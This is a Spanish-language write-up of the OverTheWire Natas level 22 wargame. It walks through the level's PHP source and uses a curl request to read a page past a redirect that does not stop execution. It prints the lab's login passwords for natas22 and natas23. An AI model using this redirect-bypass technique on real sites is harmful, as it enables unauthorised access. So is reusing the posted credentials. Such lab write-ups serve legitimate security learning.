 ```yaml
---
title: Natas-22
published: true
---
```


```
Url del reto: http://natas22.natas.labs.overthewire.org/index.php
login:natas22
 pass:natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
```

Se nos presenta el siguiente codigo:

```php

session_start();

if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
```
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas22", "pass": "<censored>" };</script></head>
<body>
<h1>natas22</h1>
<div id="content">
```
```php
<?php
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?>
```

El reto es conseguir saltarnos la redirección que hay en el primer bloque de php

```php
if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
```

Si lo intentamos por el navegador enviar la petición por GET revelio, siempre se nos aplicará la redirección 302 y no ejecutará el segundo bloque php.

Pero... y si realizamos una petición mediante curl?

```
admin1@php:~$ curl -s -u natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ http://natas22.natas.labs.overthewire.org/index.php?revelio | html2text 

****** natas22 ******
You are an admin. The credentials for the next level are:
Username: natas23
Password: D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE
View_sourcecode
```

Pues que no realizará dicha redirección y ejecutará el bloque php que nos interesa. La autenticación de este nivel es:

```
Username: natas23
Password: D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE
```

[Volver al archivo](archive)

